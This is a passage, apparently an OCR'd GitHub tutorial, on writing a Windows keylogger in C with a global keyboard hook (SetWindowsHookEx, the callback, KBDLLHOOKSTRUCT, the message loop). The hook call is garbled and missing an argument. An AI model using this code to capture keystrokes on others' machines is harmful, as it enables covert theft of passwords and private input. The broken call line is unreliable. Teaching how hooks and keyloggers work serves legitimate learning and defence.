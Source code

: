 ```c
    return CallNextHookEx(hHook, nCode, wParam, lParam);
}

int main() {
    // Install the hook
    hHook = SetWindowsHookEx(
, KeyboardProc, NULL, 0);
    if (hHook == NULL) {
        printf("Failed to install hook!\n");
        return 1;
    }

    // Keep the application running to listen for events
    MSG msg;
    while (GetMessage(&msg, NULL, 0, 0)) {
        TranslateMessage(&msg);
        DispatchMessage(&msg);
    }

    // Unhook the hook when done
    UnhookWindowsHookEx(hHook);

    return 0;
}
```


**Hook procedure:**
When we use SetWindowsHookExW(), one of the parameters in the function is the callback function that will be executed. This function is user defined, but always follows the same template.   

```c
LRESULT CALLBACK name_of_the_callbackfunction (int nCode, WPARAM wParam, LPARAM lParam)
```


- nCode: An int value, the hook uses it to determine how to process the message.  
- wPram: Specifies the type of keyboard event, WM_KEYDOWN etc..
- lParam: Points to a struct (KBDLLHOOKSTRUCT) that contains more info about the event.  We can use the time value in our keylogger. 

```c
typedef struct tagKBDLLHOOKSTRUCT {
    DWORD vkCode;      // Virtual key code
    DWORD scanCode;    // Hardware scan code
    DWORD flags;       // Event-injected flags
    DWORD time;        // Timestamp for the event
    ULONG_PTR dwExtraInfo; // Extra information
} KBDLLHOOKSTRUCT, *PKBDLLHOOKSTRUCT;
```


**Message loop:**
Processes messages sent to a application by the operating system. Each thread that creates a windows has its own message queue.  The messages in the message queue contain information about keystrokes, mouse movements and other events. 

